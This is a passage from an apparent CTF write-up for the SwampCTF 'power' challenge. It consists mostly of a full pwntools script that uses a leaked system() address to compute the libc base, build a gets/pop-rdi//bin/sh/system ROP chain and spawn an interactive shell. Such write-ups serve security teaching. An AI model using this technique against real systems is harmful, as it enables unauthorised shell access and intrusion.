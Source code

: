 ```
exploit = p64(addr_of_gets_in_power) + p64(addr_of_poprdi_in_power) + p64(addr_of_binsh_in_power) + p64(addr_of_system_in_power)
```
What the ROP chain does has been explained above.

##### Full script and full output
As promised, here is the full Python script.
```
from pwn import *
import sys

r = process('./power')

if(len(sys.argv) == 2 and sys.argv[1] == "--connect"):
	r = remote("nc chal1.swampctf.com", 1999)

libc = ELF('./libc.so.6')

def main():
	r.recvuntil('(yes/no): ')
	r.send('yes\n')
	print("\n")
	addr_of_system_in_power = int(r.recvuntil("]")[-13:-1], 16)
	log.info("Address of system() in ./power: {}".format(hex(addr_of_system_in_power)))
	r.recvuntil('Power QWord: ')
	addr_of_system_in_libc = libc.symbols['__libc_system']
	log.info("Address of system() in libc.so.6: {}".format(hex(addr_of_system_in_libc)))
	print("\n")
	addr_of_libc_in_power = addr_of_system_in_power - addr_of_system_in_libc
	log.info("Address of libc.so.6 base in ./power: {}".format(hex(addr_of_libc_in_power)))
	print("\n")
	
	addr_of_gets_in_libc = libc.symbols['_IO_gets']
	log.info("Address of gets() in libc.so.6: {}".format(hex(addr_of_gets_in_libc)))
	addr_of_gets_in_power = addr_of_libc_in_power + addr_of_gets_in_libc
	log.info("Address of gets() in ./power: {}".format(hex(addr_of_gets_in_power)))
	print("\n")

	addr_of_binsh_in_libc = libc.search('/bin/sh').next()	#find address of string '/bin/sh'
	log.info("Address of /bin/sh in libc.so.6: {}".format(hex(addr_of_binsh_in_libc)))
	addr_of_binsh_in_power = addr_of_libc_in_power + addr_of_binsh_in_libc
	log.info("Address of /bin/sh in ./power: {}".format(hex(addr_of_binsh_in_power)))

	addr_of_poprdi_in_libc = libc.search('\x5F\xC3').next() #find address of ROP gadget 'pop rdi; ret'
	log.info("Address of 'pop rdi; ret;' in libc.so.6: {}".format(hex(addr_of_poprdi_in_libc)))
	addr_of_poprdi_in_power = addr_of_poprdi_in_libc + addr_of_libc_in_power
	log.info("Address of 'pop rdi; ret;' in ./power: {}".format(hex(addr_of_poprdi_in_power)))


	exploit = p64(addr_of_gets_in_power) + p64(addr_of_poprdi_in_power) + p64(addr_of_binsh_in_power) + p64(addr_of_system_in_power)

	r.send(exploit)

	r.interactive()

if __name__ == "__main__":
	main()
```